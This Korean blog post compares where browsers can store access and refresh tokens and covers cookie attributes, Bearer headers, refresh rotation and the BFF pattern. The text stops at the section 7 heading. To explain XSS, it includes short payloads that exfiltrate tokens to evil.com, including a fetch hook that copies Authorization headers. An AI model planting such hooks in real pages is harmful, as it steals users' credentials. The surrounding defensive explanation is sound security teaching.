




# 토큰을 어디에 둘 것인가 — Cookie, Authorization Header, Storage 5종 완전 비교

액세스 토큰과 리프레시 토큰을 각각 어디에 두어야 가장 안전할까? 그리고 그 결정은 결국 무엇 위에서 닫히는가?

## 결론부터 말하면

**브라우저의 모든 토큰 저장 후보는 두 축으로 분류된다 — JavaScript에서 읽을 수 있는가, 브라우저가 자동으로 첨부하는가.** 이 두 축이 곧 XSS 노출과 CSRF 노출이고, 두 위협을 동시에 0에 가깝게 만드는 단 하나의 조합이 **BFF + HttpOnly Session Cookie** 다. 그 외의 선택은 모두 트레이드오프이며, "가장 안전한 저장소"가 아니라 "어떤 위협을 우선 닫을 것인가"라는 질문에 답하는 작업이다.



| 후보 | JS 접근 | 자동 첨부 | XSS 한 줄에 무너지는가 | CSRF 추가 방어 필요 |
|------|--------|----------|--------------------|---------------------|
| `localStorage` | ✅ 읽기/쓰기 | ❌ | **그렇다** (한 줄로 토큰 본문 탈취) | 불필요 |
| `sessionStorage` | ✅ 읽기/쓰기 | ❌ | **그렇다** (탭 격리는 보안이 아님) | 불필요 |
| 메모리 변수 (클로저) | ✅ 같은 realm | ❌ | **그렇다** (착각 주의) | 불필요 |
| `IndexedDB` | ✅ 읽기/쓰기 | ❌ | **그렇다** (단, 키 보관용엔 의미) | 불필요 |
| `HttpOnly` Cookie | ❌ 직접 접근 차단 | ✅ | 토큰 문자열은 못 봄 | **필요** (SameSite + CSRF) |

이제 이 매트릭스의 각 칸이 왜 그렇게 채워졌는지를 풀어 보자.

## 1. 왜 "어디에 두느냐"가 본질인가

서버에서 토큰은 단순한 문자열이다. 그러나 브라우저로 내려오는 순간, 토큰은 **자기 자신을 둘러싼 환경에 종속된 자격증명**이 된다. 같은 JWT가 어떤 저장소에 들어가느냐에 따라 노출되는 공격 표면이 달라진다.

이 차이는 1편에서 본 CORS와 비슷한 구조에서 비롯된다. 브라우저는 **"누군가의 컴퓨터에서, 임의의 사이트가 띄운 코드를 실행하는"** 런타임이다. 그 안에서 토큰을 다룬다는 것은 곧 다음 두 질문과 마주서는 일이다.

- **"이 토큰을 누가 읽을 수 있는가?"** -- JavaScript가 읽을 수 있다면, 같은 origin에서 실행되는 모든 스크립트가 읽을 수 있다. 우리 코드, 광고 SDK, 분석 픽셀, 손상된 npm 의존성, XSS 페이로드, 권한이 있는 브라우저 확장까지.
- **"이 토큰을 누가 자동으로 첨부하는가?"** -- 브라우저가 자동으로 보내준다면, 사용자 의지와 무관하게 다른 사이트에서 우리 API로 향하는 요청에 함께 실린다(CSRF / session riding).

이 두 질문 위에 모든 저장소 후보가 올라간다. **"안전한 저장소"는 없다.** "어떤 위협을 닫고 어떤 위협은 다른 방어막으로 보충할 것인가"를 선택하는 일이 있을 뿐이다.

> Spring 개발자에게 익숙한 비유를 하나 들자면, `RestTemplate`로 다른 서버를 호출하던 시절에는 토큰을 `HttpHeaders`에 직접 박아 보냈다. 토큰이 어디에 있는지 의식할 필요가 없었다. 같은 JVM 메모리에서 서버 코드만 그것을 만진다는 보장이 있었기 때문이다. 브라우저에는 그 보장이 없다. 같은 origin이라는 이름표를 단 임의의 코드가 같은 메모리·같은 저장소에 함께 살아 있다.

## 2. 후보 5종 — 하나씩 뜯어보기

### 2.1 localStorage — 가장 흔하지만 가장 노출됨

`localStorage.setItem('access_token', token)` 한 줄이면 끝난다. 새로고침해도 살아있고, 탭을 닫아도 남는다. 동기 API라 코드를 단순하게 만든다. **Tutorials와 Stack Overflow의 절반은 이 방식을 권한다.**

문제는 단 한 줄이다.

```javascript
const token = localStorage.getItem('access_token');
fetch('https://evil.com/steal', { method: 'POST', body: token });
```

XSS가 한 번이라도 실행된 시점에 위 두 줄이 같이 실행되면, 토큰은 그대로 공격자의 서버로 흘러간다. **공격자는 그 토큰을 자기 디바이스에서 그대로 사용할 수 있다.** 토큰의 만료 시각까지 우리 사용자가 된다. 만약 같이 저장된 리프레시 토큰까지 함께 털린다면, 공격자는 새 액세스 토큰을 갱신해 가면서 만료의 의미 자체를 무력화한다.

XSS만의 문제도 아니다. localStorage에 접근할 수 있는 코드의 목록은 점점 길어지고 있다. 분석 SDK, 채팅 위젯, 소셜 픽셀, 그리고 점점 큰 위협이 되는 **악성 또는 hijack된 브라우저 확장**. 2024년 말 CyberHaven 사건에서, 악의적으로 업데이트된 Chrome 확장이 사내 직원들의 OAuth 토큰을 그대로 수집해 SaaS에 침투한 사례가 보고됐다. 확장은 페이지의 DOM에 접근하므로, localStorage에 박힌 토큰은 곧장 노출된다.

여기서 OWASP의 권고는 단순하다. *"세션 식별자를 local storage에 저장하지 마라. 데이터는 항상 JavaScript에 접근 가능하다. 쿠키는 `httpOnly` 플래그로 이 위험을 완화할 수 있다."* localStorage는 토큰을 위해 설계된 저장소가 아니라, **사용자 설정·UI 상태처럼 노출돼도 무해한 데이터를 위한 저장소**다.

### 2.2 sessionStorage — 탭 격리는 보안이 아니다

`sessionStorage`는 API와 동작이 localStorage와 같다. 한 가지 차이는 **탭(top-level browsing context) 단위로 격리되고 탭이 닫히면 사라진다**는 점이다. 이를 두고 "보안적으로 더 안전하다"고 말하는 글이 자주 보인다. 그러나 이것은 잘못된 직관이다.

XSS가 노리는 것은 "다음 세션"이 아니라 "지금 이 세션"이다. 같은 탭 안에서 실행되는 JavaScript는 sessionStorage에 동일하게 접근한다. 같은 코드 한 줄로 같은 결과가 나온다.

```javascript
const token = sessionStorage.getItem('access_token');
// localStorage와 동일하게 노출됨
```

sessionStorage가 가진 진짜 가치는 **UX**다. 다른 탭과 데이터를 격리하고 싶을 때, 또는 탭 종료 시 자동으로 잊혀지길 원할 때 유용하다. 하지만 그것은 보안 모델이 아니다. **"세션 끝나면 사라진다"는 사실이 XSS 공격을 막아 주지는 않는다.**

### 2.3 메모리 변수 — "메모리에 두면 안전하다"는 흔한 오해

세 번째 후보는 토큰을 어떤 저장소에도 넣지 않고 JavaScript 메모리 안에만 두는 방식이다. Pinia/Redux 같은 상태 관리자, 모듈 스코프 변수, 클로저 변수 모두 이 범주에 들어간다.

```javascript
let accessToken = null;
export function setToken(t) { accessToken = t; }
export function getToken() { return accessToken; }
```

이 방식의 분명한 단점은 **새로고침하면 사라진다**는 점이다. 사용자가 F5를 누르거나 탭을 새로 열면 다시 로그인 흐름이 필요하다. 그래서 보통 "리프레시 토큰은 HttpOnly 쿠키, 액세스 토큰만 메모리"라는 형태로 짝지어 사용된다.

문제는 보안 측면에서 **"메모리에 두면 XSS에서 안전하다"는 오해**다. **그렇지 않다.** 같은 realm에서 실행되는 JavaScript는 클로저든 모듈 스코프든 전역이든 모두 도달 가능하다. 공격자 코드가 export된 `getToken()`을 호출하거나, 모듈을 직접 import하거나, `fetch`를 monkey-patch해서 `Authorization` 헤더를 가로채면 끝이다.

```javascript
// 공격자 페이로드 — 메모리 보관도 똑같이 깨진다
const origFetch = window.fetch;
window.fetch = (input, init) => {
    if (init?.headers?.Authorization) {
        navigator.sendBeacon('https://evil.com/log', init.headers.Authorization);
    }
    return origFetch(input, init);
};
```

`fetch`를 한 번 hook하면 우리 앱이 액세스 토큰을 첨부해 호출하는 모든 요청이 공격자에게 복사된다. 메모리 보관은 **노출 시간을 단축**하는 효과는 있지만(저장소에 영속되지 않으므로 새로고침으로 잠시 끊김), **XSS의 본질적 위협을 닫지는 못한다.** 이 차이를 분명히 새겨야 한다.

### 2.4 IndexedDB — 토큰엔 과한 도구, 키 보관엔 의미

`IndexedDB`는 비동기 트랜잭션·구조화된 데이터·큰 용량을 다루는 브라우저 데이터베이스다. localStorage가 5MB 안팎 string-only인 반면, IndexedDB는 수십~수백 MB의 임의 객체를 저장할 수 있다. PWA 오프라인 캐시, 디지털 ID 지갑 같은 사용처가 자연스럽다.

토큰 저장소로서의 평가는 **localStorage와 본질적으로 같다.** JS에서 읽고 쓸 수 있는 이상, XSS 한 줄에 노출된다. 토큰처럼 작은 string에 IndexedDB를 동원할 이유는 없다.

다만 IndexedDB의 진짜 가치는 따로 있다. **`crypto.subtle.generateKey()`로 만든 non-extractable `CryptoKey`를 IndexedDB에 보관**할 수 있다는 점이다. 이 키는 "값"이 JavaScript에 노출되지 않는다 -- export 자체가 불가능하다. XSS 페이로드가 IndexedDB를 열어도 보이는 것은 키 본문이 아니라 **불투명 핸들**뿐이고, `encrypt`/`decrypt` 호출은 가능하지만 키 자체는 evil.com으로 빠져나갈 수 없다.

```javascript
const key = await crypto.subtle.generateKey(
    { name: 'AES-GCM', length: 256 },
    false,                   // extractable: false — 핵심
    ['encrypt', 'decrypt']
);
// IndexedDB에 객체로 그대로 put — 외부로 export 불가
```

이 도구가 본격적으로 빛나는 건 Passkey/WebAuthn과 결합한 클라이언트 사이드 암호화 시나리오이며, 이것은 **2-3편(Web Crypto API와 Passkey)** 의 주제다. 여기서는 "IndexedDB 자체가 토큰 저장소로서는 다른 JS 접근 가능 저장소와 다르지 않다"는 결론만 두고 가자.

### 2.5 HttpOnly Cookie — JS는 못 보지만 브라우저는 자동 첨부

마지막 후보가 다섯 후보 중 유일하게 **JS 접근을 차단**한다. `Set-Cookie` 응답 헤더에 `HttpOnly` 플래그가 붙은 쿠키는 `document.cookie`에서 보이지 않는다. localStorage 접근 코드, 모듈 스코프 변수 hijack, prototype pollution 같은 흔한 XSS 도구로는 토큰 문자열에 직접 닿을 수 없다.

```http
Set-Cookie: AUTH=eyJhbGciOi...; HttpOnly; Secure; SameSite=Strict; Path=/
```

이것이 OWASP가 *"세션 식별자는 HttpOnly 쿠키에 저장하라"* 고 권고하는 근거다. 그러나 **HttpOnly가 만능은 아니다.** 다음 두 가지를 동시에 인식해야 한다.

첫째, **자동 첨부는 새로운 위협 표면을 연다.** 쿠키는 JS가 명시하지 않아도 브라우저가 origin에 맞춰 자동으로 보낸다. 다른 사이트가 사용자 브라우저에 우리 API로 향하는 요청을 시키면, 쿠키가 함께 실린다. 이것이 CSRF다. 그래서 HttpOnly 쿠키를 쓰는 순간 **`SameSite=Lax/Strict` + (필요 시) CSRF 토큰**이라는 추가 방어층이 의무가 된다. 이 정책의 동작과 함정은 1편에서 다룬 그대로이므로 여기선 결과만 사용한다.

둘째, **XSS가 발생한 시점에 fetch는 이미 자격증명을 자동으로 들고 간다.** 공격자 페이로드가 토큰 문자열을 evil.com으로 보낼 수는 없지만, 같은 origin 안에서 `fetch('/api/withdraw', { credentials: 'include' })`를 호출하는 것은 가능하다. 우리 API는 정상 사용자처럼 인증된 호출로 인식한다. 즉 **HttpOnly가 막는 것은 "토큰 본문의 외부 유출(exfiltration)"** 이지, **"공격자의 행위 그 자체(session riding)"** 가 아니다.

이 차이는 다음 절의 공격 시나리오 매트릭스에서 분명해진다.

## 3. 쿠키 5속성을 비교의 도구로

쿠키 한 줄을 깊이 이해하면 다른 저장소 후보의 한계가 거꾸로 보인다. 다섯 속성을 차례로 짚는다.

### 3.1 HttpOnly — 무엇을 막고 무엇을 못 막는가

| 막는다 | 못 막는다 |
|--------|----------|
| `document.cookie` 직접 접근 | 같은 origin에서의 자동 첨부 (session riding) |
| `localStorage`/`sessionStorage`로의 복사 | XSS가 fetch를 hook해 응답을 가로채는 것 |
| 토큰 문자열의 다른 origin 유출(exfiltration) | 권한 가진 브라우저 확장의 `chrome.cookies` 접근 |

요약하면 HttpOnly는 **"토큰이 evil.com 서버에 도달하지 못하게"** 하는 장벽이다. 이 장벽은 매우 유효하다 -- 다른 디바이스에서 사용자를 흉내 낼 수 있는 권한이 빠져나가지 못하므로, 공격의 영구성이 크게 줄어든다. 그러나 이것이 모든 공격을 막는다는 의미는 아니다. 같은 브라우저 안에서 일어나는 일은 여전히 일어난다.

### 3.2 Secure — 없으면 SameSite=None이 거부된다

`Secure` 플래그가 붙은 쿠키는 HTTPS 채널에서만 전송된다. 평범한 보호처럼 보이지만, `SameSite` 정책과 결합되면 강제 조건이 된다. **2020년 2월의 Chrome 80부터, `SameSite=None`은 `Secure` 없이는 거부된다.** Firefox와 Safari도 같은 방향이다.

이유는 단순하다. cross-site로 자동 첨부를 허용한다는 것은 가장 넓은 노출이고, 그렇다면 채널부터 안전해야 한다는 정책 결정이다. 더 정확히는 **`Secure`는 쿠키를 set/send 하는 그 요청 자체의 URL이 HTTPS여야 한다**는 조건이다. 즉 `http://localhost:3000` 프론트가 `https://api.example.com`에 요청하는 경우, API 응답이 HTTPS이므로 `SameSite=None; Secure` 쿠키 자체는 발급될 수 있다. 로컬에서 cross-site 쿠키가 자주 막히는 진짜 이유는 보통 다른 곳에 있다 — 쿠키 발급 엔드포인트가 평문 HTTP인 경우, `credentials: 'include'`/CORS credentials 설정이 빠진 경우, third-party 쿠키 정책에 걸린 경우, `Domain` 설정이 어긋난 경우. **개발 단계에서 막혔다면 set 응답의 출처 URL과 fetch credentials, 그리고 브라우저별 third-party 쿠키 정책 순서로 좁혀 보는 것이 빠르다.**

### 3.3 Domain — 명시 vs host-only

`Domain` 속성을 명시하지 않으면 쿠키는 **host-only**가 된다. 정확히 그 호스트에서 발급된 호스트로만 보낸다. 명시하면 그 도메인과 **모든 서브도메인**에 적용된다.

```http
# host-only — api.example.com이 발급, api.example.com 호출에만
Set-Cookie: SID=...; Path=/

# 도메인 공유 — example.com 및 *.example.com 모두에
Set-Cookie: SID=...; Domain=example.com; Path=/
```

여기에 보안 함정이 하나 숨어 있다. **여러 주체가 같은 상위 도메인을 공유하는 환경**에서 부모 도메인에 `Domain`을 명시하면, **다른 사용자의 페이지가 우리 쿠키를 읽을 수 있는 상황**이 만들어진다. 다행히 브라우저가 이 위험의 일부를 자동으로 막아 준다 — `github.io`·`co.uk`·`vercel.app` 처럼 [Public Suffix List](https://publicsuffix.org/)에 등록된 접미사에 대한 `Domain` 속성은 RFC 6265bis 4.1.2.3에 따라 거부된다. 즉 `username.github.io` 페이지가 `Domain=github.io`로 쿠키를 박는 시도는 브라우저가 그냥 무시한다. 그러나 **PSL에 등록되지 않은 공유 도메인** — 사내 와일드카드(`*.corp.example`)에 여러 팀이 자기 서브도메인을 운영하는 경우, 또는 등록 신청 전인 신규 호스팅 서비스 — 에서는 자동 보호가 따라오지 않는다. 그래서 권고는 단순하다. **"필요할 때만 명시하라."** 같은 회사가 통제하는 서브도메인끼리 쿠키를 공유해야 할 때만 `Domain=example.com`을 쓰고, 그 외에는 host-only를 유지한다.

같은 회사 안에서도 `app.example.com`과 `api.example.com`을 분리해 운영하는 게 일반적이다. 이때 두 호스트가 쿠키를 공유해야 한다면 `Domain=example.com` 옵션이 필요하다. 1편에서 본 대로 이것은 same-site지만 cross-origin이므로, fetch 측에서는 `credentials: 'include'`도 함께 명시해야 한다.

### 3.4 Path — 보안 경계가 아니라 송신 범위

`Path=/api/auth`로 쿠키를 발급하면, 브라우저는 정확히 `/api/auth` 또는 그 아래 하위 경로(`/api/auth/refresh` 같이 다음 문자가 `/`인 경우)에만 그 쿠키를 첨부한다. **단순 prefix 매칭이 아니다.** `/api/authentication` 같이 같은 문자열로 시작하지만 그 직후가 `/`가 아닌 경로는 매칭 대상에 포함되지 않는다(RFC 6265bis §5.1.4). 다른 path에는 쿠키를 보내지 않는다.

여기서 흔한 오해가 하나 있다. **Path는 "보안 경계"가 아니다.** 같은 origin에서 실행되는 JS는 어떤 path로든 fetch를 보낼 수 있고, 자동 첨부 범위만 줄어든다. 쿠키가 첨부되지 않는 path에서 토큰을 "안전하게 격리"하는 것이 아니다. 격리는 origin 단위로 이루어진다.

그렇다면 Path는 무엇에 쓰는가? **노출 표면 축소.** 예를 들어 리프레시 토큰을 담은 쿠키를 `Path=/api/auth/refresh`로 좁혀 두면, 일반 API 요청에는 리프레시 토큰이 첨부되지 않는다. 그 쿠키가 네트워크에 등장하는 빈도와 경로를 줄이고, 만약 리프레시 엔드포인트만 따로 견고하게 보호한다면 운영적 리스크가 낮아진다. **방어선이 아니라 면적 줄이기.**

### 3.5 SameSite — 1편으로

`SameSite=Lax`가 기본값이라는 점, `SameSite=None`은 `Secure` 없이 거부된다는 점, Schemeful Same-Site와 Partitioned 쿠키(CHIPS)의 동작은 모두 1편 4.5절에서 다뤘다. 이 글에서는 그 결론만 사용한다 -- **SameSite는 CSRF의 1차 방어선이고, 임베디드 위젯·iframe처럼 third-party 컨텍스트에서는 `Partitioned`도 함께 고려해야 한다.**

## 4. 공격 시나리오 매트릭스

이제 서로 다른 저장소 결정이 같은 공격을 어떻게 다르게 견뎌내는지 한 장으로 본다.



같은 그림을 표로 풀면 이렇다.

| 공격 시나리오 | localStorage / 메모리 / IndexedDB | HttpOnly Cookie | HttpOnly + SameSite=Strict + CSRF Token | BFF + HttpOnly Session |
|--------------|---------------------------------|-----------------|------------------------------------|------------------------|
| **XSS exfiltration** (다른 origin으로 토큰 본문 빼내기) | 즉시 탈취 | 토큰 본문은 못 봄 | 동일 (못 봄) | 동일 (브라우저에 토큰 자체가 없음) |
| **Cross-site CSRF** (다른 사이트가 사용자 브라우저에 우리 API로 위조 요청 시키기) | N/A (자동 첨부 없음) | 가능 (방어 없으면) | 차단 | 차단 |
| **Same-origin XSS riding** (XSS가 같은 origin에서 자동 첨부 악용) | N/A (대신 토큰 본문이 외부로 직접 빠짐) | 가능 | **차단되지 않음** (XSS 자체 방어 필요) | **차단되지 않음** (동일) |
| **Token replay** (네트워크 도청) | TLS면 안전 | TLS + Secure면 안전 | 동일 | 동일 |
| **Refresh token 노출** (장기 자격증명 누출) | localStorage에 같이 두면 치명적 | HttpOnly로 본문 차단 | 동일 | 브라우저에 refresh가 아예 없음 |
| **악성/hijack 브라우저 확장** | DOM·storage 직접 read | `document.cookie`엔 안 보이지만 권한 가진 확장은 `chrome.cookies` API로 접근 가능 | 동일 | 가장 안전 (확장이 BFF 세션 쿠키 하나만 보고, 토큰은 서버에) |

여기서 새로 드러나는 통찰이 두 가지 있다.

첫째, **자동 첨부의 부산물은 두 개의 다른 위협이고, 방어층도 다르다.** 같은 자동 첨부에서 나오는 위협이지만 모양이 다르다 — **cross-site CSRF**(다른 사이트가 사용자 브라우저에 우리 API로 위조 요청을 시키는 것)와 **same-origin XSS riding**(같은 origin 안에서 실행 중인 XSS가 자동 첨부를 그대로 활용해 우리 API를 호출하는 것). cross-site CSRF는 `SameSite=Lax/Strict` + CSRF 토큰으로 닫힌다. 그러나 **same-origin XSS riding은 SameSite도 CSRF 토큰도 막지 못한다** — SameSite는 cross-site에서 들어오는 요청만 거른다는 정책이고, XSS는 같은 origin에서 CSRF 토큰을 그대로 읽어 첨부할 수 있어 정의상 우회한다. 이쪽을 줄이려면 **XSS 자체 방어 + 강한 CSP + 민감 작업 재인증 + 권한 축소**처럼 전혀 다른 층이 필요하다. 그래서 "HttpOnly 쿠키 + SameSite + CSRF 토큰을 넣었으니 안전하다"는 진술은 cross-site 한 면에 대해서만 참이다.

둘째, **악성 브라우저 확장은 별도의 위협 표면이다.** 권한 있는 확장은 `chrome.cookies.getAll()` 같은 API로 HttpOnly 쿠키도 읽을 수 있다. JavaScript 엔진과 브라우저 확장 API는 다른 권한 경계 위에 산다. 이 위협을 닫는 거의 유일한 길은 **토큰을 브라우저 안에 두지 않는 것** -- BFF 패턴이다. 이것이 다음 절에서 BFF가 다시 떠오른 이유와 직결된다.

## 5. Authorization Header 방식의 트레이드오프

지금까지의 후보는 모두 "어디에 보관하느냐"였다. 또 다른 축이 있다. **"어떻게 첨부하느냐"** -- 쿠키로 자동 첨부할 것인가, `Authorization: Bearer ...` 헤더로 명시 첨부할 것인가.

OAuth 2.0 Bearer Token (RFC 6750)은 후자를 표준으로 한다.

```javascript
fetch('/api/users/1', {
    headers: { 'Authorization': `Bearer ${token}` }
});
```

이 방식의 장점은 분명하다. 자동 첨부가 일어나지 않으므로 **CSRF 위협이 구조적으로 닫힌다.** 사용자가 다른 사이트를 방문하더라도, 그 사이트가 우리 origin의 JS를 띄울 수 없는 한 `Authorization` 헤더는 자동으로 붙지 않는다. 또한 OAuth 표준의 다양한 후속 RFC(DPoP, mTLS-bound tokens)와 자연스럽게 연결된다.

단점도 분명하다. 그리고 백엔드 개발자가 자주 놓치는 부분이다.

| 단점 | 의미 |
|------|------|
| **저장 결정을 회피하지 않는다** | Bearer 헤더로 보내려면 JS가 토큰을 읽어야 한다. 그러면 토큰은 어딘가 JS가 닿을 수 있는 저장소에 있어야 한다 -- 위에 본 5종 중 HttpOnly Cookie를 제외한 후보들. |
| **Preflight를 발동시킨다** | 1편 4.2에서 본 그대로다. `Authorization` 헤더 추가는 simple request 조건을 깨고 OPTIONS를 발생시킨다. cross-origin SPA에서는 매 요청마다 RTT가 두 배가 될 수 있다(Max-Age로 캐시는 가능). |
| **헤더 누락 = 401 일관성 문제** | 페이지 새로고침 시 메모리 토큰이 사라지면 헤더 첨부가 끊긴다. 첫 요청이 401, 그 다음 refresh, 그리고 retry라는 흐름을 클라이언트가 늘 처리해야 한다. |

핵심은 짧다. **"Authorization Header 방식"은 저장 결정을 회피하지 않는다.** 어디에 토큰을 둘 것인가라는 질문은 그대로 살아 있다.

Spring 진영에서 이 흐름을 받아내는 것은 OAuth2 Resource Server다.

```java
@Bean
SecurityFilterChain api(HttpSecurity http) throws Exception {
    return http
        .authorizeHttpRequests(a -> a.anyRequest().authenticated())
        .oauth2ResourceServer(o -> o.jwt(Customizer.withDefaults()))
        .build();
}
```

기본 동작은 `DefaultBearerTokenResolver`가 `Authorization` 헤더에서 `Bearer ` 접두사를 떼어내 토큰 문자열을 추출하는 것이다. 헤더 이름을 변경하거나 form 파라미터에서도 받게 하려면 그 자리에 빈을 등록한다.

```java
@Bean
BearerTokenResolver bearerTokenResolver() {
    DefaultBearerTokenResolver resolver = new DefaultBearerTokenResolver();
    resolver.setBearerTokenHeaderName(HttpHeaders.PROXY_AUTHORIZATION);
    return resolver;
}
```

운영에서는 이 정도 커스터마이징보다, **헤더 방식 자체를 BFF의 서버↔서버 구간으로 옮기는 결정**이 보통 더 안전하다. 다음 절의 주제다.

## 6. Refresh Token Rotation은 어디에 두는가

액세스 토큰의 만료가 짧을수록(분 단위) 리프레시 토큰의 가치가 커진다. 리프레시 토큰 하나를 잡은 공격자는 만료 한도까지 새 액세스 토큰을 계속 만들어낼 수 있고, 사용자가 자기 위험을 인식하기 전에 데이터를 빼낼 수 있다.

여기서 **Refresh Token Rotation**이 OAuth 2.1의 사실상 디폴트로 자리잡았다. 정의는 단순하다 -- 한 번 사용된 리프레시 토큰은 즉시 무효화하고, 같은 가족(family) 안에서 새 리프레시 토큰을 발급한다. 같은 토큰이 두 번째로 사용되는 순간, 그 가족 전체를 무효화한다. 정상 사용자는 자기가 받은 새 토큰을 쓰고, 공격자는 이미 폐기된 토큰을 들고 오기 때문이다.



정확한 수명은 Authorization Server의 정책과 위험도에 따라 정한다. IETF `draft-ietf-oauth-browser-based-apps` §6.3.2.3은 예시로 **8시간**을 들고, RFC 9700 §4.14.2는 SPA 같은 public client의 리프레시 토큰을 발급할 거면 **rotation 또는 sender-constrained refresh token, 그리고 짧은 수명/비활성 만료** 중 적어도 하나를 적용해야 한다고 못 박는다. 핵심은 특정한 숫자 자체가 아니라 **브라우저에 머무는 자격증명의 "도난 가능 시간"을 가능한 한 좁힌다**는 원칙이다.

저장 위치 선택은 정확히 두 가지로 좁혀진다.

1. **메모리(액세스) + HttpOnly Cookie(리프레시)** -- 액세스 토큰은 새로고침 시 사라지므로 cold-start마다 리프레시 호출이 일어난다. 리프레시 쿠키는 `Path=/api/auth/refresh`로 좁히고 `SameSite=Strict; Secure; HttpOnly`로 잠근다. 자격증명이 브라우저에 일부 남지만, 노출 면적은 가장 좁다.
2. **BFF 서버 세션** -- 리프레시 토큰조차 브라우저로 내려보내지 않는다. 브라우저는 BFF를 가리키는 세션 쿠키만 들고 있고, refresh rotation은 BFF가 Authorization Server에 직접 수행한다.

IETF가 SPA에 권장하는 방향은 **2번**이다. 이유는 다음 절에서 본다.

## 7. BFF가 다시 떠오른 이유

